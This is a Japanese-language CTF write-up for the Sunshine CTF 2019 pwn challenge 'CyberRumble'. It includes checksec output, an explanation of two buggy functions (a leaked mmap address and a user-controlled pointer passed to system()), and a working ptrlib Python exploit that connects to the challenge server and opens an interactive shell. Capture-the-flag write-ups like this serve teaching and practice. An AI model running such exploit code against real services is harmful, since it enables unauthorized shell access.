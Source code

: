 # [pwn 200pts] CyberRumble - Sunshine CTF 2019
全部有効です。
```
$ checksec CyberRumble
[*] 'CyberRumble'
    Arch:	64 bits (little endian)
    NX:		NX enabled
    SSP:	SSP enabled (Canary found)
    RELRO:	Full RELRO
    PIE:	PIE enabled
```
いくつか機能があるのですが、どれもプログラミングミスで上手く機能していません。
私が使ったのは次の2つの機能です。

- `old_school`: シェルコードを実行できるがEXECフラグが立っていない。mmapされたアドレスは表示される。また、起動するかの質問にY,N以外の答えを渡すとmummapせずに終わる。
- `last_ride`: 渡した文字列がポインタとして認識されて`system(&s)`が実行される。

`old_school`でmmapした領域に実行したいコマンドを書き込み、`last_ride`でそのポインタを渡せばOKです。

```python
from ptrlib import *

sock = Socket("rumble.sunshinectf.org", 4300)
#sock = Socket("127.0.0.1", 4300)
#_ = input()

# cmd
shellcode = b"A" + b"sh"
sock.recvuntil("> ")
sock.sendline(b"old_school " + shellcode)
sock.recvuntil("written to ")
addr_shellcode = int(sock.recvline().rstrip().rstrip(b"."), 16)
sock.recvuntil("[y/n] ")
sock.sendline("w")
dump("addr_shellcode = " + hex(addr_shellcode))

# run
shellcmd = p64(addr_shellcode + 0x1)
shellcmd = shellcmd.replace(b'\x00', b'')
sock.recvuntil("> ")
sock.sendline(b"last_ride " + shellcmd)

sock.interactive()
```

# 感想
アセンブリちゃんと読めるかな問題でした。